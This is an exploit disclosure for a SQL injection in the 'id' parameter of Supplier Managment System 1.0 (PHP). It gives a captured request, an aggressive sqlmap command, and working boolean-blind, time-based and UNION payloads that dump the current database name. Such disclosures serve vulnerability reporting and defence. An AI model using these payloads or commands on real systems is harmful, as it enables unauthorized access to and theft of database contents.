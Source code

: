 # Supplier Managment System - SQL Injection
+ **Exploit Title:** Supplier Managment System - SQL Injection
+ **Date:** 2024-02-02
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/supplier-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/6634f114-7a98-4c9a-b8c3-ff5c577378e4
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Supplier Managment System 1.0 allows SQL Injection via the 'id' parameter at "/supplier/production/supplier_admin_edit.php?action=Edit&id=8". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/supplier/production"
+ Click on the 'Customer Detaiis' button
+ Then click edit button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /supplier/production/supplier_admin_edit.php?action=Edit&id=8 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: action=Edit&id=8 AND 3751=(SELECT (CASE WHEN (3751=3751) THEN 3751 ELSE (SELECT 6876 UNION SELECT 5132) END))-- -

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=Edit&id=8 AND (SELECT 7637 FROM (SELECT(SLEEP(5)))uBze)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: action=Edit&id=-3162 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a717a71,0x7672556e4e694c5648416a73487959637268546c5155454d7176647a7456446847734a7873617a56,0x716b6b6a71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:42:36] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:42:36] [INFO] fetching current database
current database: 'supplier'
```
+ current database: `supplier`

![Ekran görüntüsü 2024-02-02 034332](https://github.com/BurakSevben/CVEs/assets/117217689/9e5345ab-996f-4a2e-b6bb-11d381cfd16e)
